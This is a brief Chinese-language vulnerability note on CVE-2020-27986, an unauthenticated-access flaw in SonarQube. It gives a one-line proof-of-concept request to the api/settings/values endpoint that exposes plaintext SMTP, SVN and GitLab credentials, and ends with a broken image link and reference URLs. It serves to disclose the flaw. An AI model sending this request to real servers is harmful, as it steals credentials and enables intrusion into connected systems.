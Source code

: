 # CVE-2020-27986 SonarQube api 未授权访问


SonarQube配置不当造成未授权访问，可以通过api/settings/values获取明文SMTP、SVN和Gitlab等敏感信息

PoC：

http://[server]/api/settings/values

media/16097308794889/16097308985770.jpg)


ref：

https://csl.com.co/sonarqube-auditando-al-auditor-parte-i/

https://forum.ywhack.com/thread-114647-1-6.html